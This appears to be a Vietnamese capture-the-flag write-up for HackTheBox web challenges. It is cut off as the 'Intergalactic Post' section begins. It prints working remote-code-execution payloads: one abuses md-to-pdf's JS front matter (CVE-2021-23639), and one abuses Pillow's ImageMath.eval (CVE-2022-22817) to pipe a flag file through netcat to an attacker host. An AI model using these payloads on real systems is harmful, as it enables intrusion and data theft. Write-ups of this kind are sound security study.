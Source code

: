 Vậy giờ chỉ còn điểm đáng nghi là thư viện `md-to-pdf` được sử dụng để xử lí input của người dùng đưa vào. Kiểm tra version của lib này trong file `package.json` là `4.1.0`.
Tìm trên Google version của lib thì thấy được [CVE-2021-23639](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) có thể sử dụng để khai thác trong bài này. 

### Exploit
Ghi nội dung của flag.txt vô file `/app/static/flag.txt`
```
POST /api/invoice/add HTTP/1.1
Host: 46.101.30.188:32038
Content-Length: 119
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://46.101.30.188:32038
Referer: http://46.101.30.188:32038/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"markdown_content":"---js\n((require('child_process')).execSync('cat /flag.txt > /app/static/flag.txt'))\n---RCE"}
```
Truy cập `/static/flag.txt` để lấy flag.

**Flag**: `HTB{bl1nk3r_flu1d_f0r_int3rG4l4c7iC_tr4v3ls}`

## Amidst Us
Ở trang chủ của bài không có gì đặc biệt và chỉ có chức năng chỉnh màu cơ bản.

- Đọc source thì thấy chương trình chỉ xử lí hình ảnh, chỉnh màu sắc... bằng bằng thư viện `Pillow`.
- Chỉ có 1 điểm nghi ngờ ở trong file `util.py` là hàm `ImageMath.eval`. Thường thì hàm `eval` sẽ cho phép thực thi code và cụ thể hơn là hàm này nằm trong lib `Pillow==8.4.0`.
- Tìm Google với version đang sử dụng thì thấy được 1 CVE có liên quan [CVE-2022-22817](https://github.com/advisories/GHSA-8vj2-vxx3-667w).

### Payload
Trên server chạy command:
```
nc -lvnp [PORT]
```
Trigger command gửi flag:
```
{"image":"REDACTED","background":["__import__('os').system('cat /flag.txt | nc [IP] [PORT]')",15,15]}
```
**Flag**: `HTB{i_slept_my_way_to_rce}`

## Intergalactic Post
Trang chủ sau khi nhập email thì reponse chỉ trả về `Email subscribed successfully!`
Trong source code được cung cấp, chức năng này sẽ hoạt động như sau:
- File `index.php` có 2 routes: `/` và `/subscribe`.
